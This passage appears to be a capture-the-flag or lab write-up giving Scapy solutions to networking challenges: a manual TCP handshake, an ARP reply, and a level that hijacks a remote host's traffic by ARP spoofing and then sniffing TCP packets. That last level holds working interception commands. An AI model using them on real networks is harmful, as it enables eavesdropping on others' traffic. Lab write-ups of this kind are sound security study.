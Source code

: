 In this challenge you will manually perform a Transmission Control Protocol handshake.
The initial packet should have `TCP sport=31337, dport=31337, seq=31337`.
The handshake should occur with the remote host at `10.0.0.3`.

```python
$ scapy

>>> get_if_list()
['lo', 'eth0']
>>> get_if_hwaddr("eth0")
'42:f4:f8:57:fa:a4'
>>> pk1=Ether(src="42:f4:f8:57:fa:a4",dst="ff:ff:ff:ff:ff:ff")/IP(src="10.0.0.2",dst="10.0.0.3")/TCP(sport=31337,dport=31337,seq=31337,flags='S')
>>> response=srp(pk1,iface='eth0')
>>> response[0][0]
QueryAnswer(query=<Ether  dst=ff:ff:ff:ff:ff:ff src=42:f4:f8:57:fa:a4 type=IPv4 |<IP  frag=0 proto=6 src=10.0.0.2 dst=10.0.0.3 |<TCP  sport=31337 dport=31337 seq=31337 flags=S |>>>, answer=<Ether  dst=42:f4:f8:57:fa:a4 src=be:9b:98:0e:32:27 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=40 id=1 flags= frag=0 ttl=64 proto=6 chksum=0x66cb src=10.0.0.3 dst=10.0.0.2 |<TCP  sport=31337 dport=31337 seq=3424417206 ack=31338 dataofs=5 reserved=0 flags=SA window=8192 chksum=0xcabd urgptr=0 |>>>)
>>> pk2=Ether(src="42:f4:f8:57:fa:a4",dst="be:9b:98:0e:32:27")/IP(src="10.0.0.2",dst="10.0.0.3")/TCP(sport=31337,dport=31337,seq=31338,ack=3424417207,flags='A')
>>> response1=srp(pk2,iface='eth0')

```

#### level12
> Manually send an Address Resolution Protocol packet

In this challenge you will manually send an Address Resolution Protocol packet.
The packet should have `ARP op=is-at` and correctly inform the remote host of where the sender can be found.
The packet should be sent to the remote host at `10.0.0.3`.

```python
$ scapy

>>> get_if_hwaddr("eth0")
'5e:76:a7:a8:dc:75'
>>> pk=Ether(src="5e:76:a7:a8:dc:75",dst="ff:ff:ff:ff:ff:ff")/ARP(op="is-at",hwsrc="5e:76:a7:a8:dc:75",psrc="10.0.0.2")
>>> srp(pk,iface='eth0')
```

#### level13
> Hijack traffic from a remote host using ARP

In this challenge you will hijack traffic from a remote host using ARP.
You do not have the capabilities of a NET ADMIN.
The remote host at `10.0.0.4` is communicating with the remote host at `10.0.0.2` on port `31337`.

```python
>>> get_if_hwaddr("eth0")
'8e:4b:78:5c:3c:6a'
>>> pk=Ether(src="8e:4b:78:5c:3c:6a",dst="ff:ff:ff:ff:ff:ff")/ARP(op="is-at",hwsrc="8e:4b:78:5c:3c:6a",psrc="10.0.0.2",pdst="10.0.0.4")
>>> sendp(pk,iface="eth0")
>>> sniff(iface='eth0',filter='tcp[tcpflags]&tcp-push!=0',prn=hexdump) 

```

